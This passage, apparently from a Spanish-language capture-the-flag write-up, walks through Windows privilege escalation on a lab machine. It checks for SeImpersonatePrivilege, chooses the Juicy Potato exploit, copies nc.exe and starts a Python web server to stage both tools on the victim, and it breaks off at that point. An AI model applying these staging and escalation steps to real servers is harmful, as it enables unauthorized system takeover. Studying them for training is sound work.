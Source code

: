Veamos qué privilegios tenemos:
```batch
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Con el privilegio **SeImpersonatePrivilege** ya sabemos que podemos usar el **Juicy Potato**. 

Veamos que SO tiene la máquina:
```batch
PS C:\> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
...
```

Está usando **Microsoft Windows Server 2008 R2 Datacenter**. Ahora, busquemos el **Juicy Potato**.
* <a href="https://github.com/ohpe/juicy-potato/releases/tag/v0.1" target="_blank">Repositorio de ohpe: Juicy Potato - Releases</a>

Descarga él **.exe**, busca una **nc.exe** y cópiala en la misma carpeta que en donde esté el **Juicy Potato**:
```bash
locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
cp /usr/share/windows-resources/binaries/nc.exe .
```

Para cargar el **Juicy Potato** y la **nc.exe**, vamos a utilizar la herramienta **certutil.exe** de la máquina víctima y abriendo un servidor de **Python**. 

Hagámoslo por pasos:
* Abre el servidor de **Python**:
```bash
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
